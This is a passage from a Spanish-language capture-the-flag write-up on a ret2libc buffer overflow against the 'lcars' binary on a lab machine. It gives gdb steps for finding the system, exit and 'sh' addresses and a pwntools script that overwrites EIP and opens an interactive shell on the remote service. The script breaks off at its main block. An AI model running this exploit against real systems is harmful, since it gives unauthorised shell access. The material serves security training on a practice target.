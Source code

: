 Conseguir que el EIP apunte a -> system_addr + exit_addr + bin_sh_addr

1. Lanzamos gdb en la maquina victima

````
gdb ./lcars -q
````

2. Miramos funciones

````
> info functions
````

3. breakpoint en main

````
b *main
````

4. Ejecutar el programa

````
r
````

5. Buscar la direccion de buffer de system, exit y sh

````
p system
p exit
find &system,+9999999,"sh"
````

![](https://uuqke3c479llohf3.public.blob.vercel-storage.com/Pasted%20image%2020250219153043.png)

### Automatizar el buffer overflow

````python
#!/usr/bin/python3

from pwn import *

def bufferOverflow():
	offset = 212 # Donde empieza el EIP
	junk = b"A"*offset # Basura para meter antes de sobrescribir el EIP

	system_addr = p32(0xf7e4c060) # Direccion obtenida de system
	exit_addr = p32(0xf7e3faf0) # Direccion obtenida de exit
	sh_addr = p32(0xf7f6ddd5) # Una direccion obtenida de sh

	payload = junk + system_addr + exit_addr + sh_addr

    # Ejecucion de comandos para llegar al BoF en el programa
    context(os='linux', arch='i386')
    host, port = "10.10.10.61", 32812
	
	r = remote(host,port) # Connect
	
	r.recvuntil(b"Enter Bridge Acces code:")
	r.sendline(b"picarda1")
	r.recvuntil(b"Waiting for input:")
	r.sendline(b"4")
	r.recvuntil(b"Enter Security Overrride:")
	r.sendline(payload)  # Lanzamos el payload AAAA...

	r.interactive()


if __name__ == '__main__':
````